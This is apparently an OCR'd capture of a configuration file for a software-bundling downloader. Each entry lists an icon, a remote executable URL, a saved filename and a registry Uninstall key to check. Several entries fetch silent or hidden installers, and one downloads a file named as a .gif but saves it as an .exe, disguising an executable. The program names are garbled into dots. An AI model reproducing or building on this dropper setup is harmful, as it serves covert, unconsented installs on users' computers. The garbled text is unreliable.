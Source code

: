 ```
Y_8=0
L_8=0

N_9=..........
Z_9=231
O_9=1
D_9=..........
I_9=http://down.shg20.com/shichangbu/ico/xiaohei.ico
U_9=http://d.heinote.com/downloads/gaoxin/HNInstall_Setup_2207846935_gaoxin_001.exe
F_9=HNInstall_Setup_2207846935_gaoxin_001.exe
P_9=
C_9=2
R_9=2
S_9=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\Heinote
V_9=UninstallString
Y_9=0
L_9=0

N_10=........
Z_10=269
O_10=1
D_10=............
I_10=http://down.shg20.com/shichangbu/ico/youxun.ico
U_10=http://nkme.ddlives.com/YouXiHe/ydtg.exe
F_10=ydtg.exe
P_10=hide
C_10=2
R_10=1
S_10=Software\Microsoft\Windows\CurrentVersion\Uninstall\leyoubox
V_10=UninstallString
Y_10=0
L_10=0

N_11=........
Z_11=252
O_11=1
D_11=..............
I_11=http://down.shg20.com/shichangbu/ico/huayzb.ico
U_11=http://dldir1.qq.com/huayang/HuaYangSetup_50059noui.exe
F_11=HuaYangSetup_50059noui.exe
P_11=
C_11=2
R_11=1
S_11=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\........
V_11=UninstallString
Y_11=0
L_11=0

N_12=..........
Z_12=217
O_12=1
D_12=............
I_12=http://down.shg20.com/shichangbu/ico/wnktw.ico
U_12=http://down.shg20.com/shichangbu/setup_wnktlxnb003.gif
F_12=setup_wnktlxnb003.exe
P_12=
C_12=2
R_12=2
S_12=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\..........
V_12=UninstallString
Y_12=0
L_12=0

```